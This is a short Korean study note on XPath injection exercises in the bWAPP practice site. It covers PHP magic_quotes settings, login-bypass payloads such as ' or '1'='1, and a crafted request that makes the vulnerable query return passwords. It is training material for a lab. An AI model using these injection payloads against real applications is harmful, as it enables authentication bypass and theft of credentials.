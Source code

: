 ### bwapp

APM 기반의 실습 사이트이며, YOUTUBE 동영상으로도 실습 방법을 잘 제공하고 있어 매우 유용하다.

XPATH에 대해서는 알려진 자료가 부족하여 여기에 다시 다룬다.


### PHP 설정

직접 APM을 구축하였다면, 여러 설정들로 실습에 난항이 있다.

magic_quotes_gpc = On 일 경우, sql injection 및 싱글쿼트(')사 사용되는 XPATH injection 도 할 수 없다.

magic_quotes_gpc = Off 로 수정하거나, 입력 파라미터가 적용되기 전에 역슬래시를 제거한다.

stripslahes 함수도 써본다.

### XPATH 1

XPATH 관련 실습 과제가 2개가 있는데, 하나는 로그인 우회이다.

이는 SQL Injection과 거의 같다.

' or '1'='1

코드 형태에 따라 첫번째 사용자에 대해서 출력되거나, 입력된 사용자를 출력한다.

사용자를 확인하는 코드라면 {사용자}' or '1'='1 로 수정해야 동작할 것이다.

wolverine' or 'a'='a--

형태로 사용자명을 넣어주면, 원하는 사용자로 로그인 할 수 있다.


### XPATH 2

XPATH 실습 두번째는 union 과 유사하다.

코드에 따라 다르지만, bWAPP에서 제공하는 코드는 contains를 사용하여 vertical bar;(｜)로 조합한다.

실습 코드는 원래 장르에 따른 영화 이름을 출력하지만, 공격 코드는 패스워드를 출력하도록 되어 있다.

이해를 더 하고 싶으면, 서버를 구성하여, 조합된 공격 코드의 전체 구조를 확인하는 것이 좋다.


### XPATH 2 상세 내용

[코드]

$result = $xml->xpath("//hero[contains(genre, '**$genre**')]/movie");


[정상요청]

xmli_2.php?genre=**action**&action=search

[정상 외부 입력]

$xml->xpath(//hero[contains(genre, '**action**')]/movie);


[공격요청]

xmli_2.php?genre=**action')]/password+｜+//hero\[contains(genre,'+horror**&action=search

[공격 외부 입력]

$xml->xpath(//hero[contains(genre, '**action')]/password ｜ //hero[contains(genre,' horror**')]/movie)
